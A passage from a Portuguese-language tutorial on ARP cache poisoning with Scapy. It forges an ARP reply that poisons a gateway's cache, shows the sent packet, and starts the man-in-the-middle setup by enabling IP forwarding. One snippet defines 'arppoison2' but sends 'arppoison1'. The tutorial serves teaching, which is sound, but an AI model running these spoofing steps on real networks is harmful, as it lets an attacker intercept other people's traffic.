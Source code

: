 Observe que o que está sendo enviado para a vítima \(`192.168.1.101` no MAC `b4:2e:99:f4:b7:df`\) é que o IP `192.168.1.1` \(default gateway\) está \(`is-at`\) no MAC `28:56:5a:49:ff:67` \(`hwsrc`\) que na verdade é o MAC do atacante.

* 3º passo: “envenenar” o arp cache do default gateway na linha da vítima, preenchendo com o MAC address do atacante
* Solução: fake arp reply

```python
>>> arppoison2 = ARP(op = 2, psrc = "192.168.1.101", pdst = "192.168.1.1", hwdst = "c4:e9:84:9a:14:16")
>>> arppoison1.show()
###[ ARP ]### 
  hwtype= 0x1
  ptype= IPv4
  hwlen= None
  plen= None
  op= is-at
  hwsrc= 28:56:5a:49:ff:67
  psrc= 192.168.1.101
  hwdst= c4:e9:84:9a:14:16
  pdst= 192.168.1.1

>>> send(arppoison1)
.
Sent 1 packets.
```

Observe agora que o que está sendo enviado para o gateway \(`192.168.1.1` no MAC `c4:e9:84:9a:14:16`\) é que o IP `192.168.1.101` \(vítima\) está \(`is-at`\) no MAC `28:56:5a:49:ff:67` \(`hwsrc`\) que na verdade é o MAC do atacante.

A partir desse momento, o gateway acha que a vítima está no MAC do atacante assim como a vítima acha que o gateway está no mesmo MAC malicioso.

## Problemas

Porém, só com isso, esse ataque ainda não é efetivo por 2 motivos:

1. Os pacotes saem do gateway e chegam no atacante, mas não vão até a vítima, assim como saem da vítima e chegam no atacante, mas não vão pro gateway. É preciso fazer com que o atacante encaminhe os pacotes para o IP certo quando passam por ele.
2. A arp cache possui um tempo de verificação de linhas obsoletas, fazendo novos arp requests para atualizá-la. Após o ataque ser feito uma vez, depois de um curto período de tempo, a cache voltaria ao normal.

## Soluções

1. Para encaminhar pacotes para os devidos IP's exitem 2 maneiras:

Pelo próprio kernel

```bash
$ echo 1 > /proc/sys/net/ipv4/ip_forward
```
